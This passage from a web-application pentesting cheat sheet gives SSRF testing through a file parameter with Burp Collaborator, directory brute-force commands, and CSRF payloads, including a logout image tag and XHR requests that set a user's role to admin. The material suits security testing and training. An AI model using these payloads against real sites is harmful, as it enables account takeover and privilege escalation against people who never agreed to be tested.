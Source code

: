 ### Testing with Burp Collaborator:
1. Open Burp Collaborator.
2. Set interaction poll.
3. Inject payload in a vulnerable parameter:
   ```
   /showimage.php?file=http://burp-collaborator-url
   ```
4. Check logs in Burp for external requests.

## 4. Critical Files Exposure

### Impact:
- Exposure of sensitive files like `database credentials`, `server authentication data`, or `business logic information`.

### Scanning:
```bash
dirb http://target.com/ wordlist.txt
gobuster dir -u http://target.com/ -w wordlist.txt
```

## Cross-Site Request Forgery (CSRF)

### Exploitation:
#### Logout CSRF:
```html
<img src="http://target.com/logout.php">
```
#### Account Takeover CSRF:
1. Capture a profile update request.
2. Change `email` field in CSRF PoC.
3. Open PoC in browser and submit.

### JSON GET - Simple Request

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.example.com/api/currentuser");
xhr.send();
</script>
```


### JSON POST - Simple Request

With XHR :

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
//application/json is not allowed in a simple request. text/plain is the default
xhr.setRequestHeader("Content-Type", "text/plain");
//You will probably want to also try one or both of these
//xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
//xhr.setRequestHeader("Content-Type", "multipart/form-data");
xhr.send('{"role":admin}');
</script>
```
